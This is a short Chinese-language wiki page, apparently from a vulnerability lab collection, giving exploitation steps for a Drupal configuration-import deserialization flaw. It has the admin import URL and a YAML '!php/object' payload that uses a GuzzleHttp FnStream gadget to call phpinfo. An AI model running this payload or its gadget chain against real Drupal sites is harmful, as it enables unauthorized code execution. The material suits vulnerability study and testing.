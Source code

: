 <languages   />

<translate>

漏洞利用
--------

</translate>

<translate> 登錄管理員賬戶，訪問以下URL： </translate>

    http://127.0.0.1/admin/config/development/configuration/single/import

<translate> `Configuration type`選擇為</code>Simple configuration</code>

`Configuration name`可以隨便填寫，在`Paste your configuration here`中寫入poc: </translate>

    !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"

<translate> 點擊左下角的Import按鈕便可以觸發漏洞。 </translate>